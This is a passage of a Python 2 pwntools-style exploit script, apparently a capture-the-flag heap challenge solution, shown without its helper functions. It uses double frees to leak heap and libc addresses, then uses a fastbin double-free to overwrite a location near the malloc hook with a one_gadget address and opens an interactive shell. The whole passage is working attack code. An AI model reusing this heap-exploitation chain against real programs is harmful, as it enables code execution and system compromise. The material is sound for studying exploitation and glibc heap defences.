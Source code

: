free(1)

free(0)

free(1)

#pause()

heap_base=u64((show(0)).ljust(8,'\x00'))-0x70

print "heap_base -> " + hex(heap_base)

#pause()

add(p64(heap_base+0x60),'Y') # !

add('\x00'*0x58+p64(0x71),'Y')

add('\x00'*8+p64(0x81),'Y')

add('\x00'*8+p64(0xA1),'Y')

#pause()

free(1)

libc_base=u64((show(1)).ljust(8,'\x00'))-0x68-0x00000000003C4B10

print "libc_base -> " + hex(libc_base)

one_gadget=libc_base+0xf02a4 # change

print "one_gadget -> " + hex(one_gadget)

add('a','Y') # 7

add('a','Y') # 8

add('a','Y') # 9

free(7)

free(8)

free(7)

point=libc_base+0x3c4af5-8

add(p64(point),'Y') # 10

add('a','Y') # 11

add(p64(point),'Y') # 12

#pause()

add('a'*19+p64(one_gadget),'Y')

io.sendline('1')

io.interactive()

main()

#------------------------------------------------------------------------------------------------------------------------------------
